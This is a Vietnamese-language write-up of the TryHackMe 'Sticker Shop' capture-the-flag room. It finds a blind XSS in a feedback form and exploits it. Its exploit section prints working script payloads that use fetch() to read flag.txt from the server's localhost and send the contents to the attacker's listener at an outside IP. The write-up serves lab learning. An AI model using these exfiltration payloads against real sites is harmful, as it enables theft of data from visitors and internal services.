


# [THM] The Sticker Shop write-up

- IP: 10.10.50.39

## Recon

Đầu tiên ta sẽ thử truy cập tới đường dẫn flag mà đề bài đã cho xem sao



Hiện tại thì không có quyền để đọc flag

Truy cập với port 8080 ta nhận được trang web có 2 page `Home` và `Feedback`



Khám phá thì có vẻ homepage không có gì để ta khai thác cả


Feedback page sau khi kiểm tra và thử gửi submit thì thấy có respose trả về như ảnh trên, ta có thể nghi ngờ với lỗ hổng **XSS**. Để rõ hơn ta cần tiếp tục khai thác

## Exploit

Ta sẽ tạo http server trên máy attacker để kiểm tra payload `XSS` mà ta gửi

```js
<script>fetch('http://10.21.113.26:1234/?l='+location.href)</script>
```


Ta nhận được response như hình vậy đã xác định được chính xác page này có thể bị khai thác bởi lỗ hổng `XSS`

Khi kiêm tra với payload dưới ta không nhận lại được response nào cả 
```js
<script>
fetch('http://10.10.50.39:8080/flag.txt')
  .then(res => res.text())
  .then(data => {
    fetch('http://10.21.113.26:1234/?data=' + data);
  })
</script>
```

Và ta có thể nhận thấy sau khi tôi gửi payload để kiểm tra thì thấy location hiện tại là `http://127.0.0.1:8080/` chứ không phải `http://10.10.50.39:8080`

Ta cần chỉnh sửa payload để get được flag 

```js
<script>
fetch('http://127.0.0.1:8080/flag.txt')
  .then(res => res.text())
  .then(data => {
    fetch('http://10.21.113.26:1234/?data=' + data);
  })
</script>
```

Với payload trên nội dung file flag sẽ được lấy thông qua fetch và sau đó response trả về sẽ được chuyển thành text và cuối cùng sẽ được gửi tới máy attacker

## flag.txt
Sau khi gửi payload trên thì đã get được flag


**DONE**